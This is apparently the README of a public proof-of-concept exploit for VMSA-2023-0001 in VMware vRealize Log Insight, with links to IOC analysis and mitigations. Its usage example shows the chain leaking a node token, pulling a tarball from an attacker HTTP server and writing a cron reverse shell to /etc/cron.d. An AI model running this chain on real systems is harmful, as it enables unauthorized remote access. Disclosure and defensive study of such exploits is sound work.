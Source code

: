 # VMSA-2023-0001
POC for VMSA-2023-0001 affecting VMware vRealize Log Insight which includes the following CVEs:
* VMware vRealize Log Insight Directory Traversal Vulnerability (CVE-2022-31706)
* VMware vRealize Log Insight broken access control Vulnerability (CVE-2022-31704)
* VMware vRealize Log Insight contains an Information Disclosure Vulnerability (CVE-2022-31711)

The default configuration of this vulnerability writes a cron job to create a
reverse shell. Be sure to change the `payload` file to suite your environment.

## Technical Analysis
A technical root cause analysis of the vulnerability can be found on our blog:
https://www.horizon3.ai/vmware-vrealize-log-insight-vmsa-2023-0001-technical-deep-dive

## Indicators of Compromise
For analyzing Log Insight instances for indicators of compromise check out our IOC blog:
https://www.horizon3.ai/vmware-vrealize-cve-2022-31706-iocs/

## Summary
This POC abuses the various Thrift RPC endpoints to achieve an arbitrary file write.

## Usage
```plaintext
$ python3 VMSA-2023-0001.py --target_address 192.168.4.133 --http_server_address 192.168.4.60 --http_server_port 8080 --payload_file payload --payload_path /etc/cron.d/exploit 
[+] Using CVE-2022-31711 to leak node token
[+] Found node token: f261d2f5-71fa-45fd-a0a0-6114a55a8fb8
[+] Using CVE-2022-31704 to trigger malicious file download
192.168.4.133 - - [30/Jan/2023 16:43:41] "GET /exploit.tar HTTP/1.1" 200 -
[+] File successfully downloaded
[+] Using CVE-2022-31706 to trigger directory traversal and write cron reverse shell
[+] Payload successfully delivered
```

## Troubleshooting
If using a cron based payload, make sure the payload file has the appropriate
permissions and owner:
```shell
sudo chown root:root payload
```
```shell
sudo chmod 0644 payload 
```

## Mitigations
Update to the latest version or mitigate by following the instructions within the VMSA
https://www.vmware.com/security/advisories/VMSA-2023-0001.html

## Follow the Horizon3.ai Attack Team on Twitter for the latest security research:
*  [Horizon3 Attack Team](https://twitter.com/Horizon3Attack)
*  [James Horseman](https://twitter.com/JamesHorseman2)
*  [Zach Hanley](https://twitter.com/hacks_zach)

## Disclaimer
This software has been created purely for the purposes of academic research and for the development of effective defensive techniques, and is not intended to be used to attack systems except where explicitly authorized. Project maintainers are not responsible or liable for misuse of the software. Use responsibly.

